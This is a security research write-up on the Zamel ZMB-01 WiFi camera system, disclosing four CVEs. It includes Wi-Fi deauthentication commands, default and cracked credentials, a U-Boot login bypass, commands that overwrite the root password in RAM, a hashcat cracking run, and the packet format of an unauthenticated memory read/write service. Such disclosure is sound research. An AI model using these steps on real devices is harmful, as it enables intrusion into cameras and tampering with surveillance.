


<!-- excerpt start -->
The analyzed hardware is the [Zamel ZMB-01](https://zamel.com/pl/gardi/zestaw-monitoringu-bezprzewodowego-wi-fi-typ-zmb-01) video surveillance system, which allows connecting cameras via WIFI.
It is possible to view the stream remotely from a smartphone, on the webpage, or it can be used as a standalone system with external monitor and mouse attached to the device.
<!-- excerpt end -->

### Basic information
|                      |                                        |
| -------------------- | -----------                            |
| **Manufacturer** | Zamel                                  |
| **Model**       | ZMB-01                                 |
| **Frequency**    | 2.4GHz                                 |
| **Connectors**   | HDMI, D-SUB, USB, SATA, Rj45, charging |
| **Contents**     | 2x camera ZMB-01/C, 1 NVR base, 2x camera chargers, 1x base charger, 1x ethernet cable, 1x usb mouse, 1x SATA cable, mounting parts        |
| **Product details page** | [https://zamel.com/pl/gardi/zestaw-monitoringu-bezprzewodowego-wi-fi-typ-zmb-01](https://zamel.com/pl/gardi/zestaw-monitoringu-bezprzewodowego-wi-fi-typ-zmb-01) |

According to the manufacturer, both the hardware and software is actually made by "Longse Technology Co., Ltd.".

### Interface

The system was designed in a way that it can be fully used without using an external computer. Below is a screen capture of the main screen created with an HDMI grabber.

It is not possible to connect keyboard to the system. Everything has to be typed using mouse cursor. I tried...




It is also possible to access the interface on the port 80, but for stream view an additional browser plugin is required.

### Panel Authentication
The first step was logging into the system and checking how authentication and authorization were implemented. I haven't found any severe errors in the implementation.
On the every endpoint, it is checked whether the user is authenticated. Login and password is passed via `Authorization` header and no session nor password is saved in the cookies or local storage, which prevents basic CSRF-like attacks.

In the [manual](https://zamel.com/pl/gardi/zmb-01-instrukcja.pdf) the following default credentials can be found:

**Login:** admin\
**Password:** 12345

### Camera DoS
Using WIFI for communication between cameras and NVR makes it really easy to install the system. All you need to add a new camera is to connect it to the power.
However, as WIFI is communicating remotely via radio waves, it is possible to disrupt the signal. With WIFI it is even easier as you don't need to jam on the entire 2.4GHz.
What one can do is attempt a [WIFI deauthentication attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack):

```bash
sudo airmon-ng start wlp7s0f3u6u1
sudo airodump-ng wlp7s0f3u6u1mon
sudo aireplay-ng --deauth 0 -c E0:09:BF:56:F4:58 -a E0:09:BF:80:03:6F wlp7s0f3u6u1mon
```

In the result of these commands, feed on the NVR is now frozen. There is no error message about losing connection. The only way to notice that something is wrong is that the date in the left corner is not updating.


It is very likely that a person watching multiple camera feeds won't notice that one of the streams stopped. This is a very effective attack that doesn't require having any access to the device or its network.
Because of that, such WIFI camera systems shouldn't be installed in places that need reliable monitoring.

### Accessing cameras WIFI network
NVR is creating a WIFI network via which it is communicating with cameras. The password for this network have common default too:

I had to change WIFI mode from some chinese mode in order to be able to connect to the network. You may need a chinese WIFI adapter. It doesn't show up during scan otherwise.


**SSID:** HSNVRdEjXe\
**Password:** lspassword

I scanned the entire network in which we can find both NVR and connected camera:
```txt
adikso@pc › ~ › nmap -p0-65535 172.20.18.0/24
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-31 22:09 CEST
Nmap scan report for 172.20.18.1
Host is up (0.024s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
554/tcp   open  rtsp
5000/tcp  open  upnp
6000/tcp  open  X11
8181/tcp  open  intermapper
60001/tcp open  unknown
65530/tcp open  unknown

Nmap scan report for 172.20.18.12
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
23/tcp   open  telnet
80/tcp   open  http
8830/tcp open  unknown
```

### Leaking passwords in an unencrypted communication
The NVR is using external service in order to allow connecting to the stream remotely from a smartphone.
I noticed that on boot, NVR is communicating to the bitdog.com service in order to set up passwords for accessing remote stream access.

```txt/10-11,15-16
POST /as/serverDevice/setDeviceUserAndPassword HTTP/1.1
Host: www.bitdog.com
Content-Length: 2717

{
  "param":  {
    "deviceMole":  "NVR_9CH",
    "device_id":  "8701582130390",
    "action":  "init",
    "user_list":  [{
        "user_name":  "admin",
        "password":  "12345",
        "remote_permision":  "111111111111111111111111111111111111111111111111111111111111111",
        "channel_permision":  ["111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111", "111111111111111111111111111111111111111111111111111111111111111"]
      }, {
        "user_name":  "karamba",
        "password":  "12345678a",
        "remote_permision":  "000000000000000000000000000000000000001111011000000000000000000",
        "channel_permision":  ["111111111111111111110000000000000000000000000000000000000000000", "111111111111111111110000000000000000000000000000000000000000000", "111111111111111111110000000000000000000000000000000000000000000", "111111111111111111110000000000000000000000000000000000000000000", "111111111111111111110000000000000000000000000000000000000000000", "111111111111111111110000000000000000000000000000000000000000000", "111111111111111111110000000000000000000000000000000000000000000", "111111111111111111110000000000000000000000000000000000000000000", "111111111111111111110000000000000000000000000000000000000000000", "111111111111111111110000000000000000000000000000000000000000000", "000000000000000000000000000000000000000000000000000000000000000", "000000000000000000000000000000000000000000000000000000000000000", "000000000000000000000000000000000000000000000000000000000000000", "000000000000000000000000000000000000000000000000000000000000000", "000000000000000000000000000000000000000000000000000000000000000", "000000000000000000000000000000000000000000000000000000000000000"]
      }]
  },
  "requestNo":  123,
  "liveTime":  123
}
```

It is sending the same passwords that are used for logging into the control panel **as plaintext without SSL**...
If we manage to get into the network with such NVR, we can perform ARP poisoning and sniff all the passwords.

### Fetching firmware
Analysed system is the only camera monitoring system offered by Zamel. "HI3536E-NVR-V1.0" markings on the PCB points that this hardware is not built by Zamel. In the web panel source, one can find comments in Chinese.

In order to fetch firmware, I decided to test network update feature. This feature is only available via HDMI and only for cameras.



I changed NVR's network configuration in order to point it to our own DNS and HTTP server in order to see the requests.
The NVR is trying to fetch update information from
```txt
http://www.herospeed.net/hs/wifikits/ipc/FH8852V200W_JXF23_W3T0A0M0C0P0_W/updateinfo.txt
```
which currently returns 404 error.

However on herospeed.net website it is possible to find latest version of the firmware:
```txt
http://www.herospeed.net/en/ver/wifikits/FH8852V200W_JXF23_W3T0A0M0C0P0_W_21.1.9.1.zip
```

### UART on NVR
Because I only got firmware image for cameras but not for NVR, we decided to find UART connectors on the PCB in order to extract it ourselves.


On the PCB there are 3 pads marked as T, R and G which one can guess mean Tx, Rx and Ground. I connected them to the logic analyzer, and it became obvious that it is in deed an UART interface.


As I'm not experienced in hardware, it was helpful for quickly finding required baud rate which is `115200`.
Now we needed to measure the voltage so that our serial-to-usb device won't fry - it is `3.3V`.

### Bypassing /bin/login on NVR
We can simply interact with the device via UART using `screen`:
```txt
screen /dev/ttyUSB 115200
```

Unfortunately, upon connecting we were asked for the system credentials. We couldn't guess them, so we decided to find a workaround.
At the beggining of booting process, we noticed the following message:
```txt
Hit any key to stop autoboot:  1
```

Pressing enter greets us with a CLI implementing some interesting commands:
```txt
hisilicon # help
?       - alias for 'help'
base    - print or set address offset
bootm   - boot application image from memory
bootp   - boot image via network using BOOTP/TFTP protocol
cmp     - memory compare
cp      - memory copy
crc32   - checksum calculation
ddr     - ddr training function
decjpg  - jpgd   - decode jpeg picture.

ext2load- load binary file from a Ext2 filesystem
ext2ls  - list files in a directory (default /)
fatinfo - print information about filesystem
fatload - load binary file from a dos filesystem
fatls   - list files in a directory (default /)
getinfo - print hardware information
go      - start application at address 'addr'
help    - print command description/usage
loadb   - load binary file over serial line (kermit mode)
loady   - load binary file over serial line (ymodem mode)
loop    - infinite loop on address range
md      - memory display
mii     - MII utility commands
mm      - memory modify (auto-incrementing address)
mtest   - simple RAM read/write test
mw      - memory write (fill)
nm      - memory modify (constant address)
ping    - send ICMP ECHO_REQUEST to network host
printenv- print environment variables
rarpboot- boot image via network using RARP/TFTP protocol
reset   - Perform RESET of the CPU
saveenv - save environment variables to persistent storage
setenv  - set environment variables
setvobg - setvobg   - set vo backgroud color.
        - setvobg [dev color]
sf      - SPI flash sub-system
startgx - startgx   - open graphics layer.
        - startgx [layer addr stride x y w h]

startvl - startvl   - open video layer.
        - startvl [layer addr stride x y w h]

startvo - startvo   - open interface of vo device.
        - startvo [dev type sync]
stopgx  - stopgx   - close graphics layer.
        - stopgx [layer]
stopvl  - stopvl   - close video layer.
        - stopvl [layer]
stopvo  - stopvo   - close interface of vo device.
        - stopvo [dev]
tftp    - tftp  - download or upload image via network using TFTP protocol
usb     - USB sub-system
usbboot - boot from USB device
version - print monitor version
```

I decided to have a look at `printenv` and `setenv`.

```txt/1
hisilicon # printenv
bootargs=mem=139M console=ttyAMA0,115200 initrd=0x822A0000,0x400000 root=/dev/ram0 mtdparts=hi_sfc:384K(boot),2688K(kernel),4096K(rootfs),5120K(app),2560K(www),128K(logo),1408K(data)
bootcmd=sf probe 0;sf read 0x82000000 0x60000 0x2A0000;sf read 0x822A0000 0x300000 0x400000;bootm 0x82000000
bootdelay=1
baudrate=115200
use_mdio=0
ethaddr=00:00:23:34:45:66
netmask=255.255.255.0
bootfile="uImage"
bootlogo=sf probe 0;sf read 0x82000000 0xE80000 0x20000;decjpg;startvo 0 36 8;startgx 0 0x8F000000 2560 0 0 1280 720;
jpeg_addr=0x82000000
jpeg_size=0x20000
vobuf=0x8F000000
stdin=serial
stdout=serial
stderr=serial
verify=n
ver=U-Boot 2010.06 (Dec 25 2020 - 17:51:33)
serverip=192.168.0.186
ipaddr=192.168.0.41

Environment size: 708/65532 bytes
```

And added `single init=/bin/sh` params to the bootargs using `setenv` command:
```txt
hisilicon # setenv bootargs mem=139M console=ttyAMA0,115200 initrd=0x822A0000,0x400000 root=/dev/ram0 mtdparts=hi_sfc:384K(boot),2688K(kernel),4096K(rootfs),5120K(app),2560K(www),128K(logo),1408K(data) single init=/bin/sh
hisilicon # saveenv
```
and upon boot it sucessfully bypassed login prompt

```txt/9
/bin/sh: can't access tty; job control turned off
/ # ls
app            etc            mkimg.rootfs   proc           usb
bin            home           mknod_console  root           usr
boot           init           mnt            sbin           var
config         lib            nfsroot        share          www
data           linuxrc        opt            sys
dev            lost+found     other          tmp
/ # cat /etc/passwd
root:$1$VrYGBAHz$UTZGIcPu2vbOqJiT9ksif1:0:0::/root:/bin/sh
```

As I couldn't get it to mount all the file systems correctly, I decided to remove `init=/bin/sh` parameter and replace password in `/etc/passwd` but the CLI that I logged into is only a read-only file system. 

```txt/2
hisilicon # printenv
bootargs=mem=139M console=ttyAMA0,115200 initrd=0x822A0000,0x400000 root=/dev/ram0 mtdparts=hi_sfc:384K(boot),2688K(kernel),4096K(rootfs),5120K(app),2560K(www),128K(logo),1408K(data)
bootcmd=sf probe 0;sf read 0x82000000 0x60000 0x2A0000;sf read 0x822A0000 0x300000 0x400000;bootm 0x82000000
```

In the output of printenv command, we found how that file system is loaded to RAM. In similar way, we can load the entire flash to the RAM:
```txt
hisilicon # sf probe 0                         
32768 KiB hi_fmc at 0:0 is now current device
hisilicon # sf read 0x82000000 0x0 0x2000000
```

and dumped it with `md` (memory display) command:

```txt
hisilicon # md.b 0x82000000 0x2000000
82000000: 17 08 00 ea 14 f0 9f e5 14 f0 9f e5 14 f0 9f e5    ................
82000010: 14 f0 9f e5 14 f0 9f e5 14 f0 9f e5 14 f0 9f e5    ................
82000020: a0 22 80 80 00 23 80 80 60 23 80 80 c0 23 80 80    ."...#..`#...#..
82000030: 20 24 80 80 80 24 80 80 e0 24 80 80 78 56 34 12     $...$...$..xV4.
```
Because it was taking a very long time I stopped once I found first `/etc/passwd` file. On our machine I converted this output to binary file and searched for "passwd".
I found following string in the binary file:
```txt
root:$1$VrYGBAHz$UTZGIcPu2vbOqJiT9ksif1:0:0::/root:/bin/sh
```

So now we know that we can find content of the `/etc/passwd` at address `0x82368baf`

I generated new, simpler password using openssl
```txt
adikso@pc › openssl passwd -1
Password: 
Verifying - Password:
$1$yp.wcQq0$cjQz6nRi39kpjg0o.HPhk0
```

And generated commands writing every byte of this new password at a correct offset in RAM:
```txt
mw.b 0x82368baf 0x24;mw.b 0x82368bb0 0x31;mw.b 0x82368bb1 0x24;mw.b 0x82368bb2 0x79;mw.b 0x82368bb3 0x70;mw.b 0x82368bb4 0x2e;mw.b 0x82368bb5 0x77;mw.b 0x82368bb6 0x63;mw.b 0x82368bb7 0x51;mw.b 0x82368bb8 0x71;mw.b 0x82368bb9 0x30;mw.b 0x82368bba 0x24;mw.b 0x82368bbb 0x63;mw.b 0x82368bbc 0x6a;mw.b 0x82368bbd 0x51;mw.b 0x82368bbe 0x7a;mw.b 0x82368bbf 0x36;mw.b 0x82368bc0 0x6e;mw.b 0x82368bc1 0x52;mw.b 0x82368bc2 0x69;mw.b 0x82368bc3 0x33;mw.b 0x82368bc4 0x39;mw.b 0x82368bc5 0x6b;mw.b 0x82368bc6 0x70;mw.b 0x82368bc7 0x6a;mw.b 0x82368bc8 0x67;mw.b 0x82368bc9 0x30;mw.b 0x82368bca 0x6f;mw.b 0x82368bcb 0x2e;mw.b 0x82368bcc 0x48;mw.b 0x82368bcd 0x50;mw.b 0x82368bce 0x68;mw.b 0x82368bcf 0x6b;mw.b 0x82368bd0 0x30
```

Now we execute the same commands that are in `bootcmd` but before executing `bootm` we enter commands for overwriting password in RAM. This way we can just login with password "1234" and everything is working correctly.

### UART on camera
On camera PCB I found another set of Tx, Rx and ground pads but this time without marked which is which.

Top soldering skills...



With our limited electronics knowledge, I still deducted that if for a pair of two pads we are getting around `3.3V` between them, then one of them is a ground.
I found the ground pad and for the Rx and Tx we checked which is which using logic analyzer. Baud rate is `115200` too.

This time both `init=/bin/sh` and `/etc/passwd` overwriting attempts were unsuccessful. Probably there is another, compressed rootfs running instead.
I'm lucky that this time passwd hash is of this "ancient" DEScrypt type, which means that it is maximum 8 characters long.

```txt
hashcat -a 3 -m 1500 -i --increment-max 8 hash.txt -1 ?l?u?d ?1?1?1?1?1?1?1?1
```

... and few hours later we have the password:

For every firmware version the password is different


```txt
RRi/UpU/YNxdI:JWLxpy14                                    
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1500 (descrypt, DES (Unix), Traditional DES)
Hash.Target......: RRi/UpU/YNxdI
Time.Started.....: Mon Jun 13 21:05:38 2022 (26 mins, 49 secs)
Time.Estimated...: Mon Jun 13 21:32:27 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: ?1?1?1?1?1?1?1?1 [8]
Guess.Charset....: -1 ?l?u?d, -2 Undefined, -3 Undefined, -4 Undefined 
Guess.Queue......: 8/8 (100.00%)
Speed.#1.........:  1961.7 MH/s (10.54ms) @ Accel:4 Loops:1024 Thr:128 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 17612193136640/218340105584896 (8.07%)
Rejected.........: 0/17612193136640 (0.00%)
Restore.Point....: 73891840/916132832 (8.07%)
Restore.Sub.#1...: Salt:0 Amplifier:81920-82944 Iteration:0-1024
Candidate.Engine.: Device Generator
Candidates.#1....: nrwU5236 -> Hs0kZ236
Hardware.Mon.#1..: Temp: 70c Fan: 28% Util: 91% Core:2470MHz Mem:1000MHz Bus:16
```

Password for this version of firmware is `JWLxpy14`.

Later I verified another verion of the firmware that update system was attempting to [download](http://www.herospeed.net/en/ver/wifikits/FH8852V200W_JXF23_W3T0A0M0C0P0_W_21.1.9.1.zip) and I noticed that there is a visible pattern of the password.
The pattern looks like [A-Z]{3}[a-z]{3}[0-9]{2} and makes bruteforcing take like 10s. 

What's more is that the password is constant per firmware version, so bruteforcing passwords to every firmware version would give us access to every camera.

### Arbitrary Read Write on camera
As we are connected to the camera's network, we can have a look at what services it is exposing:

```txt
Nmap scan report for 172.20.18.12
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
23/tcp   open  telnet
80/tcp   open  http
8830/tcp open  unknown
```

According to our tests, there is no HTTP running on port 80. This is some custom protocol. On FTP port we are receiving error from the server that server binary is missing.
With cracked password, we can login via telnet.

There is also port 8830. After very long analysis using Ghidra, I found that there is a service called "CoolView" running on this port.
It is a binary, non-text service. By reversing the service binary, we can see that it offers 5 operations:
- REG_READ
- REG_WRITE
- MEM_EXPORT
- MEM_IMPORT_F
- MEM_IMPORT

**and there is no password needed to use them...**

The structure of the requests for the two most important operations looks as follows:
#### MEM_EXPORT
**Request**
| 1 byte | 2 bytes | 4 bytes | 9 bytes |
| ------------ | ------------------------ | ------------------------- | --- |
| 0x61 | Big Endian length | Big Endian address | padding |

**Response**
| 1 byte | [length] bytes | 1 byte |
| ------------ | ------------------------ | ------------------------- |
| 0x99 | data | 0xee |


#### MEM_IMPORT_F
**Request**
| 1 byte | 2 bytes | 4 bytes | 9 bytes |
| ------ | ------- | ------- | ------- |
| 0x62 | Big Endian length | Big Endian address | data |

**Response**
| 1 byte | 1 byte |
| ------ | ------ |
| 0xff | 0xee |


Using this interface we are able to read and write on the entire devices memory. This can be used to execute any code on the camera.
Probably the easiest way to exploit this vulnerability is finding `/bin/login` in memory using MEM_EXPORT and replacing it with `/bin/sh` using MEM_IMPORT_F. This way we skip login prompt when connecting with telnet.

```txt
adikso@pc › ~ › telnet 172.20.18.12
Trying 172.20.18.12...
Connected to 172.20.18.12.
Escape character is '^]'.


BusyBox v1.19.3 (2019-01-18 16:24:39 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

Code for the poc is available [here](https://github.com/Adikso/CVE-2024-5633).

### CVEs
- [CVE-2024-5631](https://www.cve.org/CVERecord?id=CVE-2024-5631) <span style="color: yellow;">(6.0)</span> - Sending credentials to the remote control service without any encryption
- [CVE-2024-5632](https://www.cve.org/CVERecord?id=CVE-2024-5632) <span style="color: yellow;">(5.3)</span> - Default password for the internal WIFI network
- [CVE-2024-5633](https://www.cve.org/CVERecord?id=CVE-2024-5633) <span style="color: orange;">(7.5)</span> - Arbitary Read/Write via undocumented binary service
- [CVE-2024-5634](https://www.cve.org/CVERecord?id=CVE-2024-5634) <span style="color: orange;">(8.6)</span> - Easy to bruteforce telnet passwords, common per firmware version